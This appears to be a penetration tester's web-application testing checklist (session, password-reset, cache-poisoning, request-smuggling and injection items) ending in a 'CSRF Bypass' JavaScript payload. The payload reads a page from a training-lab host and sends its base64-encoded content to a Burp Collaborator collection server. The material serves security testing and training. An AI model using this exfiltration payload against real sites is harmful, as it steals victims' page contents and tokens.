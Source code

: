   		4.1.1 - [ ][ ] Autorize - Access Control (IDOR, Sensitive Data Exposure)
    	4.1.2 - [ ][ ] Unauthenticated User Access(direct page access?, authentication parameter, fuzz login form)
    	4.1.3 - Session/User Management Testing
    		4.1.3.1 - Password Policy
            	4.1.3.1.1 - [ ][ ] sufficient?
            	4.1.3.1.2 - [ ][ ] enforced?
        	4.1.3.2 - Password Change / Reset Functionality
	            4.1.3.2.1 - [ ][ ] Rate Limit?
	            4.1.3.2.2 - [ ][ ] Session Reset?
	            4.1.3.2.3 - [ ][ ] Reset Email one-time-use?
	            4.1.3.2.4 - [ ][ ] Is an email/text sent to the original contact if Password or mfa factor is changed?
	            4.1.3.2.5 - [ ][ ] Is MFA required before password/mfs/security question change?
	            4.1.3.2.6 - [ ][ ] Security Question / Answer
        	4.1.3.3 - [ ][ ] Lockout Mechanism
        	4.1.3.4 - [ ][ ] Assess session token(s) (sufficiently random? new, unique tokens on login?)
        	4.1.3.5 - [ ][ ] sensitive data in token?
        	4.1.3.6 - [ ][ ] absolute / inactivity timeouts
        	4.1.3.7 - [ ][ ] Session destroyed on logout?
        	4.1.3.8 - [ ][ ] password reset kills all other sessions?
        	4.1.3.9 - [ ][ ] Are all standard account security features available? (Log out, password change, etc)
        	4.1.3.10 - Forgot username/password workflow.
            	4.1.3.10.1 - [ ][ ] Follows best practices?
	            4.1.3.10.2 - [ ][ ] Secure email token generation?
	            4.1.3.10.3 - [ ][ ] do password reset links/tokens expire immediately after being used?
	            4.1.3.10.4 - [ ][ ] do unused tokens expire?
	            4.1.3.10.5 - [ ][ ] null char shenanigans
5 - Infrastructure/Configuration Management Testing
	5.1 - Cache Poisoning
		5.1.1 - [ ][ ] https://portswigger.net/web-security/web-cache-poisoning
		5.1.2 - [ ][ ] https://portswigger.net/research/practical-web-cache-poisoning
		5.1.3 - [ ][ ] https://portswigger.net/research/web-cache-entanglement
	5.2 - HTTP Request Smuggling
		5.2.1 - [ ][ ] https://portswigger.net/web-security/request-smuggling
		5.2.2 - [ ][ ] https://portswigger.net/research/request-smuggling
6 - Exploiting
	6.1 - [ ][ ] SQLi
	6.2 - [ ][ ] XSS
	6.3 - [ ][ ] CSRF
7 - Reporting

#### CSRF Bypass
fetch('https://ace81fc71e48dbc1c0150fbd007f0049.web-security-academy.net/chat', { 
        method: 'GET', mode: 'no-cors'  
    })  
    .then(response => { response.text().then(data => { 
            var token = new DOMParser().parseFromString(data, 'text/html'); 
            fetch('https://z11gykx50ey9lpw978d9vs1rbihd52.burpcollaborator.net', 
                { 
                    method: 'POST', 
                    mode: 'no-cors', 
                    body: "test=" + btoa(new XMLSerializer().serializeToString(token)) 
                }) 
        })  
    })
